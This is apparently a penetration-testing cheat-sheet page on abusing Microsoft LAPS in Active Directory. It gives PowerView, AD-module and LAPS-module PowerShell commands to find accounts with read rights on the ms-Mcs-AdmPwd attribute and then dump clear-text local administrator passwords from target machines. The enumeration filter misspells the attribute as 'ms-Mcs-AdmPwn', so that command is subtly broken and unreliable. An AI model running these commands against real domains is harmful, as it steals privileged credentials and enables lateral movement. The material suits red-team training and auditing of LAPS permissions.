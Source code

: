 # LAPS

## Theory

LPAS (Local Administrator Password Solution) provides centralized storage of local users in AD with periodic randomizing

Is stored in clear text but the transmission is encrypted (Kerberos).

## Abuse

### Enumeration

If LAPS is enabled a library AdmPwd.dll can be found in the C:\Program Files\LAPS\CSE\ directory. To find user who can read the passwords in clear text machines in OUs using powerview:

{% code overflow="wrap" %}
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwn') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/immagine (5).png" alt=""><figcaption></figcaption></figure>

To find OU where LAPS is in user import the LAPS module (can be copied across machines):

{% code overflow="wrap" %}
```powershell
Import-Module ./AdmPwd.PS.psd1
Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```
{% endcode %}

### Exploitation

With a user that has the Rights use the following command to read the clear-text passwords:

#### Powerview

{% code overflow="wrap" %}
```powershell
Get-DomainObject -Identity <targetmachine$> | select -ExpandProperty ms-mcs-admpwd
```
{% endcode %}

#### AD-Module

{% code overflow="wrap" %}
```powershell
Get-ADComputer -Identity us-mailmgmt -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
```
{% endcode %}

#### LAPS Module

```powershell
Get-AdmPwdPassword -ComputerName <$targetmachine>
```

<figure><img src="../../../.gitbook/assets/immagine (1) (1).png" alt=""><figcaption></figcaption></figure>
